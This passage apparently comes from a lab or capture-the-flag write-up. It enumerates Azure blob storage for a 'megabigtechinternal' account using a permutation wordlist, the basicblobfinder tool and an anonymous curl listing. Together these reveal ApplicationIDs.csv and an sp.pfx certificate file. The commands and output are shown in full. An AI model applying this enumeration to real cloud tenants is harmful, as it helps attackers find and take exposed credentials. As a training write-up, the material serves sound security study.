 We found two storage accounts containing `megabigtech`. Let's check `megabigtechinternal` storage account. We can try to identify blob containers in the storage account using [basicblobfinder](https://github.com/joswr1ght/basicblobfinder).
```
└─$ for word in $(cat ../AzSubEnum/permutations.txt); do echo megabigtechinternal:$word >> namelist; done
```
```
└─$ python3 basicblobfinder.py namelist
/home/kali/tools/cloud/azure/basicblobfinder/basicblobfinder.py:57: SyntaxWarning: invalid escape sequence '\-'
  if (re.search("[^a-z0-9\-]", cntrname) or "--" in cntrname or len(cntrname) < 3 or len(cntrname) > 63):
<SNIP>
Invalid container name $root, skipping.
Invalid container name $web, skipping.

Valid storage account and container name: megabigtechinternal:data
Blob data objects:
    https://megabigtechinternal.blob.core.windows.net/data/ApplicationIDs.csv
    https://megabigtechinternal.blob.core.windows.net/data/sp.pfx
<SNIP>
```
We found the container named data and the files `ApplicationIDs.csv` and `sp.pfx`. We can also list the contents of the data container via the URL: [https://megabigtechinternal.blob.core.windows.net/data?restype=container&comp=list](https://megabigtechinternal.blob.core.windows.net/data?restype=container&comp=list)
```
└─$ curl -s 'https://megabigtechinternal.blob.core.windows.net/data?restype=container&comp=list' | xq 
<?xml version="1.0" encoding="utf-8"?>
<EnumerationResults ContainerName="https://megabigtechinternal.blob.core.windows.net/data">
  <Blobs>
    <Blob>
      <Name>ApplicationIDs.csv</Name>
      <Url>https://megabigtechinternal.blob.core.windows.net/data/ApplicationIDs.csv</Url>
      <Properties>
        <Last-Modified>Mon, 15 Apr 2024 19:31:49 GMT</Last-Modified>
        <Etag>0x8DC5D82B2193E7D</Etag>
        <Content-Length>3636</Content-Length>
        <Content-Type>text/csv</Content-Type>
        <Content-Encoding/>
        <Content-Language/>
        <Content-MD5>b/VVz8vGquAc5cZAfAPDsg==</Content-MD5>
        <Cache-Control/>
        <BlobType>BlockBlob</BlobType>
        <LeaseStatus>unlocked</LeaseStatus>
      </Properties>
    </Blob>
    <Blob>
      <Name>sp.pfx</Name>
      <Url>https://megabigtechinternal.blob.core.windows.net/data/sp.pfx</Url>
      <Properties>
        <Last-Modified>Mon, 15 Apr 2024 14:23:35 GMT</Last-Modified>
        <Etag>0x8DC5D57A2A2E574</Etag>
        <Content-Length>2558</Content-Length>
        <Content-Type>application/x-pkcs12</Content-Type>
        <Content-Encoding/>
        <Content-Language/>
        <Content-MD5>hU6L74KUyOePe8MDfCt6fw==</Content-MD5>
        <Cache-Control/>
        <BlobType>BlockBlob</BlobType>
        <LeaseStatus>unlocked</LeaseStatus>
      </Properties>
    </Blob>
```